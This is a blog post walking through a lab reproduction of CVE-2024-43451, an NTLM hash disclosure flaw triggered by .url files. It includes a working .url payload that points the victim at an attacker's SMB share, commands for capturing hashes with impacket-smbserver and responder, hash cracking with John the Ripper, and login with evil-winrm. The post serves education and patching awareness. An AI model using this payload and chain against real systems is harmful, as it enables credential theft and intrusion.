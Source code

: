 ```yaml
---
layout: post
title: "Exploiting CVE-2024-43451 - NTLM Hash Disclosure"
date: 2024-11-28
author: acfirth
categories: [Vulnerabilities]
tags: [Cybersecurity, Vulnerabilities, NTLM, CVE-2024-43451]
---
```


CVE-2024-43451 is a vulnerability that, when exploited, discloses the NTLM hash of the targeted user to the attacker. It was discovered by ClearSky Cyber Security in June of 2024.

The vulnerability is exploited through URL files containing malicious code and requires minimal interaction, by the target, for it to be exploited.

Interactions needed to exploit the vulnerability:
- A single right-click on the file (all Windows versions).
- Deleting the file (Windows 10/11).
- Dragging the file to another folder (Windows 10/11 and some Windows 7/8/8.1 configurations).

<small>Source: [ClearSky Cyber Security](https://www.clearskysec.com/0d-vulnerability-exploited-in-the_wild/)</small>

A patch for the vulnerability was released by Microsoft on November 12th 2024.

# Exploitation
> Note: This vulnerability reproduction was done in a controlled environment using virtual machines. The vulnerability and methodology shown is STRICTLY for educational and demonstration purposes only!

In this demonstration of exploiting the vulnerability, I setup two target machines. One running Windows 10 Pro and is part of a domain controlled by a DC (Domain Controller), and the other running Windows 10 Home and not part of a domain, but on the same network but a different subnet.

- Attacker machine: 192.168.55.2
- Windows 10 Pro (Domain Connected): 192.168.57.4
- Windows 10 Home: 192.168.56.4

(Both Windows 10 machines did not have the security patch installed.)

## Initial Setup
To exploit this vulnerability, there are two things needed. The payload being one and a way to capture the NTLM hash being the other.

I will show two methods of capturing the NTLM hash. The first one is using `impacket-smbserver` and the second one using `responder`.

Links to download impacket and responder:
- [impacket](https://github.com/fortra/impacket)
- [responder](https://github.com/SpiderLabs/Responder)

### Creating the payload
The payload used in this example is incredibly easy to create, it is simply 4 lines of text.

#### Payload Template:
```
[InternetShortcut]
URL=file://<ATTACKER-IP>/<SHARE>/<FILENAME>
IconIndex=<ICON-TO-USE>
IconFile=<C:\PATH\TO\ICONFILE>
```

#### Breakdown:

`URL` is the URL of the file that the attacker hosts and will be requested by the targets machine when the exploit is run.

`IconIndex` is the index of the icon that is displayed for the payload file. It can be set to look like regular items such as a folder or a text document.

`IconFile` is where the icon will be fetched from.

#### Payload Example:
```
[InternetShortcut]
URL=file://192.168.55.2/Files/LegitemateFile.txt
IconIndex=70
IconFile=C:\Windows\System32\SHELL32.dll
```
The payload is then saved as a file with the extension `.url`.

## Capturing the NTLM Hashes
When targetting the Windows 10 Pro machine, I used impacket's, `impacket-smbserver` to capture the hashes and when targetting the Windows 10 Home machine I used `responder`.

### Impacket Setup
To setup the impacket SMB server I created a directory named 'Files' and created an empty text file named 'LegitemateFile.txt'.

I then ran the command:\
`impacket-smbserver -smb2support Files ./Files`

This command starts an SMB server on the attacker machine, creates a share named "Files", and points the share to a given path (in this example, the directory named 'Files').

I then started a simple Python3 HTTP Server in the directory of my payload that I could use to download the payload onto the target machine using `wget`. In a real-life scenario, the attacker would instead use a method like a spear-phishing attack to get the payload onto specific target's machines.

After the payload was on the target machine, I tested moving the file from one directory to another via drag-and-drop as well as opening the file by double-clicking it. Both interactions with the file resulted in it being run and the NTLM hash being sent to the attacker's machine.

![Impacket SMB Server NTLM Hash Capture](/assets/images/Exploiting-CVE-2024-43451-Images/impacket-smbserver_NTLM_Capture.png)


### Responder Setup
To setup `responder` I did not have to do anything except from run the command:\
`sudo responder -I eth0 -wd`.

Again, I started a simple Python3 HTTP Server in the directory of my payload to transfer it onto the Windows 10 Home target machine, using `wget`.

Once the payload was on the target machine, instead of running the file by double-clicking it or moving the file between directories, I simply right-clicked it. Instead of bringing up the file options menu, it did nothing, but it did infact run the payload as on the attacker machine there was an NTLM hash captured by `responder` for the user 'jdoe'.

![Responder NTLM Hash Capture](/assets/images/Exploiting-CVE-2024-43451-Images/responder_NTLM_capture.png)

## What Can An Attacker Do Now?
Now the attacker has the NTLM hash of their targetted user, they can do a couple of things. One of them is to attempt to abuse servics that support Passing-the-Hash, this can be used to gain access to a machine and extract information about the system or other users.

Another thing the attacker could do, is attempt to crack the hash to get the target's plaintext password. If the target has a particularly weak password it can be cracked very quickly using tools like `JohnTheRipper` and `Hashcat`.

### Cracking An NTLM Hash with JohnTheRipper
All the attacker has to do is copy the captured hash into a file and then run the command:\
`john jdoe.hash --wordlist=/path/to/password.list`

![Cracking an NTLM Hash with JohnTheRipper](/assets/images/Exploiting-CVE-2024-43451-Images/Crack_NTLM_hash_with_jtr.png)

### Gaining Access Using Evil-WinRM
After cracking the hash to get the target's password, the attacker could use a tool like `evil-winrm` to gain access to the target machine using the gathered username and password.

![Gaining Access using Evil-WinRM](/assets/images/Exploiting-CVE-2024-43451-Images/evil-winrm_jdoe_login.png)

This would only work if the target machine had the `WinRM` service running and exposed. WinRM is supposed to be an internal service used by network administrators, however a simple search on `Shodan` shows over 2 MILLION machines with WinRM exposed! This just goes to show how dangerous this vulnerability could be.

# Final Notes
I strongly urge you to go and read the [blog post](https://www.clearskysec.com/0d-vulnerability-exploited-in-the_wild/) made by the ClearSky Cyber Security Team where they discuss the background of the vulnerability and how it was discovered. I also suggest you go update your Windows machines!

Thank you for taking the time to read this.

#### Sources:
- [ClearSky Cyber Security Team](https://www.clearskysec.com/0d-vulnerability-exploited-in-the_wild/)
- [NIST National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2024-43451)
- [Kaspersky](https://www.kaspersky.com/blog/2024-november-patch-tuesday/52604/)
- [CVEDetails](https://www.cvedetails.com/cve/CVE-2024-43451/)